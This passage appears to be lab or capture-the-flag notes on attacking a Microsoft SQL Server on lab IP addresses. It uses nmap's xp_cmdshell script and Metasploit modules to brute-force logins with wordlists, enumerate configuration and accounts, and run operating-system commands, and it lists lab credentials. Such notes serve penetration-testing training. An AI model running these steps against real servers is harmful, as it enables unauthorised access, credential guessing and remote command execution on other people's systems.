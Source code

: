 ```bash
# 7. Execute a command on MSSQL to retrieve the flag. (The flag is located inside C:\flag.txt)
john@kali> nmap 10.2.18.228 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd='more C:\flag.txt'
```

Credentials : `admin:anamaria` `dbadmin:bubbles1` `auditor:jasmine1`

### MSSQL Metasploit

```bash
john@kali> ip a
john@kali> nmap 10.2.17.166
john@kali> nmap 10.2.17.166 -p 1433 -sV

# 1. Discover valid users and their passwords
john@kali> msfconsole
msf6> use scanner/mssql/mssql_login
msf6> set username ""
msf6> set user_file /root/Desktop/wordlist/common_users.txt
msf6> set pass_file /root/Desktop/wordlist/100-common-passwords.txt
msf6> set rhosts 10.2.17.166
msf6> set verbose false
msf6> run

# 2. Enumerate MSSQL configuration
msf6> use admin/mssql/mssql_enum
msf6> set rhosts 10.2.17.166

# 3. Enumerate all MSSQL logins
msf6> use admin/mssql/mssql_enum_sql_logins
msf6> set rhosts 10.2.17.166
msf6> run

# 4. Execute a command on the target machine
msf6> use admin/mssql/mssql_exec
msf6> set rhosts 10.2.17.166
msf6> set cmd whoami
msf6> run

# 5. Enumerate all available system users
msf6> use admin/mssql/mssql_enum_domain_accounts
msf6> set rhosts 10.2.17.166
msf6> run
```

Credentials : `admin:bubbles1` `sa:` `dbadmin:anamaria` `auditor:nikita`
